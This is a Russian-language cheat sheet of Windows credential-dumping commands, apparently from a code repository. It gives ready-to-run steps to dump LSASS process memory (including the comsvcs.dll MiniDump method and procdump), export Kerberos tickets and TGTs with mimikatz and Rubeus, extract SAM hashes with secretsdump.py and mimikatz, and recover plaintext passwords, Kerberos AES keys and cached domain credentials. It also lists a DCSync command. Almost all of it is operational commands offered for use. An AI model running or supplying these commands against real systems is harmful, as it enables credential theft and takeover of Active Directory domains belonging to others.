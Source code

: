 ## Извлечение Kerberos-tickest через дамп виртуальной памяти:
**Три способа дампа памяти:**  
1) taskmgr.exe → ПКМ по lsass.exe → дамп памяти;  
2) rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full  
3) procdump.exe -ma lsass.exe /accepteula.  
  
Если дамп удалось создать, то билеты можно безопасно извлечь уже на своей стороне:  
mimikatz.exe -> sekurlsa::Minidump lsass.dmp -> sekurlsa::tickets /export  
  
## Извлечение Kerberos-tickest (Rubeus):  
**Список доступных тикетов**: Rubeus.exe triage  
**Извлекаем TGT пользователя**: Rubeus.exe dump /luid:0xfffff /service:krbtgt /nowrap  
**Aditional information**: Tickets for the service name krbtgt are Ticket Granting Tickets (TGTs) and others are Ticket Granting Service Tickets (TGSs).  

## Извлечение хешей SAM (нужны учетные данные пользователя):  
secretsdump.py [domain]/[username]:[password]@[TARGET IP]  

## Извлечение хешей SAM (mimikatz):  
\mimikatz.exe token::elevate lsadump::sam exit  

## Извлечение NTLM/plaintext passwords (mimikatz):  
\mimikatz.exe token::elevate sekurlsa::logonpasswords exit  

## Извлечение Kerberos Encryption Keys (mimikatz): extract aes256_hmac value  
\mimikatz.exe token::elevate sekurlsa::ekeys exit  

## Domain cached credentials: позволяет исользовать учетные данные домена, если нет связи с DC.  
\mimikatz.exe token::elevate lsadump::cache exit  

## DCSync (mimikatz):  
\mimikatz.exe token::elevate lsadump::dcsync exit  

